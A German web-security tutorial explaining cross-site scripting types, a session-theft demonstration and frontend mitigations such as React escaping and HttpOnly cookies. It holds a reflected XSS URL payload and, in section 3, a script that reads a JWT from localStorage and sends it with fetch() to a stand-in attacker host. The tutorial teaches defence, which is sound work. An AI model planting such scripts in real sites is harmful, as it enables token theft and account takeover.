

# XSS und clientseitige Angriffe (Frontend)

Während die SQL-Injection die Datenbank (Backend) angreift, greift **XSS (Cross-Site Scripting)** die Benutzer der Anwendung (Frontend) an. Das Ziel von XSS ist nicht, die Daten des Servers zu stehlen, sondern die Daten des Browsers des Benutzers (wie seine Session-Cookies oder sein JWT-Token) zu stehlen.

## 1. XSS verstehen

XSS tritt auf, wenn eine Webanwendung es einem Benutzer ermöglicht, Informationen einzugeben (z. B. in einem Forenkommentar), und das System diese Informationen dann auf dem Bildschirm anderer Benutzer anzeigt, ohne sie zu "desinfizieren" (sanitizing) oder zu bereinigen.



## 2. Arten von XSS

Es gibt drei Hauptvarianten, nach denen jeder Pentester sucht:

### Reflected XSS (Reflektiert)
Der Angriff erfolgt in der URL. Der Angreifer sendet dir einen Link per E-Mail:
`https://banco.com/buscar?q=<script>alert('Hack')</script>`
Wenn die Seite den Parameter `q` aus der URL nimmt und ihn direkt ins HTML malt ("Ergebnisse für: `<script>...`), führt dein Browser ihn sofort aus.

### Stored XSS (Gespeichert - Am gefährlichsten)
Das bösartige Script wird in der Datenbank gespeichert (z. B. in der Profilbeschreibung eines Benutzers oder in einem Tweet). Jeder, der das Profil besucht, wird automatisch gehackt, ohne auf seltsame Links klicken zu müssen.

### DOM-Based XSS
Die Schwachstelle tritt vollständig innerhalb des JavaScript-Codes des Frontends (z. B. React oder Vue) auf. Passiert oft bei der Verwendung gefährlicher Funktionen wie `innerHTML` in Vanilla JS oder `dangerouslySetInnerHTML` in React mit benutzergesteuerten Daten.

## 3. Praktische Demonstration (Session-Diebstahl)

Anstelle eines harmlosen `alert('Hack')` würde ein echter Angreifer dies in einen Kommentar injizieren:

```html
<script>
  // Wir stehlen das JWT-Token aus LocalStorage
  const token = localStorage.getItem('access_token');
  // Wir senden es stillschweigend im Hintergrund an den Server des Angreifers
  fetch('https://servidor-del-hacker.com/robar?jwt=' + token);
</script>
```
Wenn der Administrator der Site sich einloggt, um die Kommentare zu überprüfen, führt sein Browser dieses Script aus und der Angreifer erhält vollen Zugriff als Administrator.

## 4. Minderung (Mitigation) im Frontend
* **React ist standardmäßig sicher:** Wenn du `{variable}` in React verwendest, maskiert (escapes) das Framework gefährliche Zeichen automatisch (`<` wird zu `&lt;`).
* **HttpOnly Cookies:** Speichere niemals ein kritisches Zugriffs-Token im `LocalStorage` oder in normalen Cookies. Speichere es in einem Cookie mit den Flags `HttpOnly` und `Secure`. Dies macht es für JavaScript (und damit für XSS) physisch unmöglich, das Cookie zu lesen.

Auf der **Fortgeschrittenen Stufe (Nivel Avanzado)** werden wir einen Schritt weiter gehen und Request-Forgery-Angriffe (CSRF/SSRF) analysieren und wie man Server austrickst.
